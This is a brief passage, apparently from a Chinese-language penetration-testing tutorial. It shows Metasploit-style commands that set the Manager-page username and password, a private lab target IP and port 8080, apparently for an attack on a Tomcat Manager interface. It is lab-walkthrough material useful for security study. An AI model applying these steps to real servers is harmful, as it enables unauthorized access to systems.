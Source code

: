 ![image-20220401214712845](../../images/image-20220401214712845.png)

设置参数

`set httpusername farmsec	#设置Manager管理页面的用户名`

`set httppassword 123.bmk	#设置Manager管理页面的密码`

`set rhosts 192.168.20.194	#设置目标IP`

`set rport 8080	#设置目标端口`
